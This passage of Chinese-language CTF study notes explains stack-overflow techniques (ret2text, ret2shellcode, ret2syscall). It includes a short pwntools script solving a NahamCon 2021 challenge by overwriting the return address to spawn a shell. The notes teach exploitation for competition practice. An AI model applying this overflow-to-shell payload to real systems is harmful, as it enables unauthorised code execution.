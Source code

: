 > 2. IDA分析出可以用于getshell的地方(`system("/bin/sh");`)，记录可以 getshell 的地址
> 3. gdb(pwndbg)分析出`gets`函数所用字符串 s 与 return address 之间的偏移量，构造payload，将用于getshell的地址覆盖到 return address
>
> 比赛案例：
>
> - NahamCon 2021 (ctf.nahamcon.com): Ret2basic: 没开canary等保护，找到打开`flag.txt`的函数，覆盖return address就行了，栈分析可以用gdb也可以用IDA(没分析错)。
>
> ```python
> # NahamCon 2021 (ctf.nahamcon.com): Ret2basic # 
> # 0x0000000000401334   call    _gets
> from pwn import *
> context.log_level = 'debug'
> sh = remote('challenge.nahamcon.com', 30413)
> # 这个是前面分析的 mov dword ptr [esp], offset command ; command: "/bin/sh" 的地址 后面一条指令是 call  _system
> target = 0x0000000000401215
> payload = b'A' * (0x70 + 8) + p64(target)  # 这里是前面分析的字符串 s 与 return address 之间的偏移量
> sh.sendline(payload)
> sh.interactive()
> ```



### ret2shellcode

- 控制程序执行shellcode代码（例如sh）
- shellcode: 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell
- 通常，ret2shellcode问题中，shellcode 需要自行填充。这是另外一种典型的利用方法，即此时需要自己填充一些可执行的代码。(ret2text则是利用程序自身的代码)
- 在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限



> 案例见demo_ROP_bamboofox_ret2shellcode  https://github.com/hex-16/CTF-detailed-writeups/tree/main/pwn/demo_ROP_bamboofox_ret2shellcode 有一些问题，见writeup



### ret2syscall

- 控制程序执行系统调用(system call)，获取 shell
- Linux 系统调用号：`/usr/include/asm/unistd.h`

> # 系统调用(wikipedia)
>
> 系统调用 system call，指运行在用户空间的程序向操作系统内核请求需要更高权限运行的服务。系统调用提供用户程序与操作系统之间的接口。大多数系统交互式操作需求在内核态运行。如设备IO操作或者进程间通信
>
> 操作系统的进程空间可分为用户空间和内核空间，它们需要不同的执行权限。其中系统调用运行在内核空间
>
> 库函数：系统调用和普通库函数调用非常相似，只是系统调用由操作系统内核提供，运行于内核核心态，而普通的库函数调用由函数库或用户自己提供，运行于用户态。

- Linux 系统调用通过 `int 80h` 实现，用系统调用号区分入口函数。操作系统实现系统调用的基本过程：

1. 应用程序调用库函数 API
2. API **将系统调用号存入 EAX**，然后通过中断调用`int 0x80`使系统进入内核态
3. 内核中的中断处理函数根据系统调用号，调用对应的内核函数（系统调用）
4. 系统调用完成相应功能，将**返回值存入 EAX**，返回到中断处理函数
5. 中断处理函数返回到 API 中
6. API 将 EAX 返回给应用程序
